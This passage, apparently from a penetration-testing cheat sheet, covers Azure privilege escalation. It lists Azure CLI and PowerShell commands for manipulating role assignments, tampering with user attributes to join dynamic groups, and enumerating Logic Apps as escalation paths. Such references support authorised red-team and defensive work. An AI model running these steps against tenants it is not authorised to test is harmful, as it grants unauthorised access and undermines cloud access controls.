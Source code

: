 2. Role assignment manipulation
   ```powershell
   # Azure CLI
   az role assignment list
   az role assignment create --assignee <principal-id> --role <role-name>
   ```

**Advanced Techniques**:
1. Dynamic Group Exploitation
   ```powershell
   # PowerShell
   Get-AzureADGroup -Filter "displayName eq 'Dynamic Group'"
   Get-AzureADGroupMember -ObjectId <group-id>
   Set-AzureADUser -ObjectId <user-id> -JobTitle "New Title"
   ```

2. Role Assignment Abuse
   ```powershell
   # PowerShell
   az role assignment list
   az role assignment create --assignee <principal-id> --role <role-name>
   az role assignment delete --assignee <principal-id> --role <role-name>
   ```

**Success Indicators**:
- Modified group membership
- Changed role assignments
- Gained elevated access

**Related Sections**:
- [User Enumeration](#user-enumeration)
- [Service Principal Abuse](#service-principal-abuse)
- [Role Assignment Manipulation](#role-assignment-manipulation)

### Azure Resource Escalation
**Scenario**: You need to escalate privileges within Azure resources.

**Enumeration Path**:
1. Discovered Logic Apps
2. Identified Key Vaults
3. Found automation accounts
4. Determined escalation path

**Prerequisites**:
- Azure CLI installed
- Valid credentials
- Appropriate permissions

**Steps**:
1. Logic app automation abuse
   ```powershell
   # Azure CLI
   az logic workflow list
   az logic workflow show --name <workflow>
   ```
